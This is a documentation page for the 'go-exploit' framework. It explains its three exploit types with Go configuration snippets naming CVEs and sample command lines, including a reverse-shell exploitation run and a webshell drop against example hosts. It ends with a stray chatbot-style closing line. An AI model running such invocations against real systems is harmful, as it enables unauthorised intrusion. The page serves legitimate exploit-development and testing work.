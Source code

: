 # `go-exploit` Exploit Types

The `go-exploit` framework currently supports three exploit types. These types determine how the command-line interface accepts arguments and define the post-exploitation behavior. The three exploit types are defined in `config/config.go`:

1. CodeExecution
2. InformationDisclosure
3. Webshell

To configure the exploit type in the exploit's `main` function, you can use the `config.New` function as follows:

```go
conf := config.New(config.CodeExecution, supportedC2, "My Target", "CVE-2023-1270", 80)
```

## Examples

### Code Execution

The Code Execution exploit type assumes that the attacker is attempting to exploit a remote target. Depending on the configured command and control (C2) method, the attacker may need to provide local host information or a bind port. Here is an example of invoking verification, version check, and exploitation for a reverse shell using the Code Execution exploit type:

```sh
./exploit -a -v -c -e -rhost 10.12.70.247 -rport 80 -lhost 10.12.70.252 -lport 1270
```

### Information Disclosure

The Information Disclosure exploit type assumes that there is some type of information leak that does not immediately result in code execution. No command and control (C2) is configured for this exploit type. In the `main` function, it would look like this:

```go
conf := config.New(config.InformationDisclosure, []c2.Impl{}, "Minio API", "CVE-2023-28432", 9000)
```

Depending on the specific exploit, you may need to provide a local host and port using the `-lhost` and `-lport` arguments. Here is an example of invoking verification, version check, and exploitation using the Information Disclosure exploit type:

```sh
./exploit -v -c -e -s -rhost 10.12.70.247 -rport 443
```

### Webshell

The WebShell exploit type assumes that the exploit will drop a webshell on the remote host. No command and control (C2) is configured for this exploit type. In the `main` function, it would look like this:

```go
conf := config.New(config.Webshell, []c2.Impl{}, "ThinkPHP", "CVE-2022-47945", 8080)
```

Here is an example of invoking verification, version check, and exploitation using the WebShell exploit type:

```sh
./exploit -v -c -e -s -rhost 10.12.70.247 -rport 443
```

---

I have made some slight modifications for clarity and formatting. If you have any further questions or need additional assistance, feel free to ask!
